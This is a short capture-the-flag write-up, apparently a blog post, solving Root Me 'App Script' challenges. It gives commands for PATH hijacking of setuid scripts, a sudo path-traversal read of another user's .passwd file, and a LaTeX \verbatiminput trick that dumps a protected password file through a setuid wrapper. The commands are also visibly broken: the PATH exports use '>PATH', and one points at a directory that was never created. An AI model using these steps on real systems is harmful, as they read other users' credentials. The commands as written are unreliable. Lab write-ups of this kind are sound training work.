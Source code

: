 ```yaml
---
layout: post
title: 'Root Me | App Script - Very Easy'
permalink: /rootme/app-script/very-easy/
---
```


# Bash - System 1
We need to copy cat into our folder, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
{% highlight bash %}
> mkdir /tmp/zeropio
> cp /bin/cat /tmp/zeropio
> mv /tmp/zeropio/cat /tmp/zeropio/ls
> export PATH=/tmp/zeropio:>PATH
> ./ch11
{% endhighlight %}

# Sudo - weak configuration
We need to see all the sudo options (with -l). Then we can see we need to use the cracked user, who can only do a cat to ./notes/ .
{% highlight bash %}
> sudo -l
> sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
{% endhighlight %}

# Bash - System 2
As we did in the first, we need to use nano instead of cat because the script have the options -al.
{% highlight bash %}
> mkdir /tmp/zeropio
> cp /bin/nano /tmp/zeropio
> mv /tmp/zeropio/nano /tmp/zeropio/ls
> export PATH=/tmp/zeropio2:>PATH
> ./ch12
{% endhighlight %}

# LaTex Input
We will create a **main.tex** file with the following content:
{% highlight bash %}
\documentclass{article}
\usepackage{verbatim}

\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
{% endhighlight %}

We will generate a **main.pdf** file:
{% highlight bash %}
> ./setuid-wrapper /tmp/main.tex
{% endhighlight %}

 Then we will just get the pdf:
{% highlight bash %}
 > scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.pIzF7UG6do/main.pdf .
 {% endhighlight %}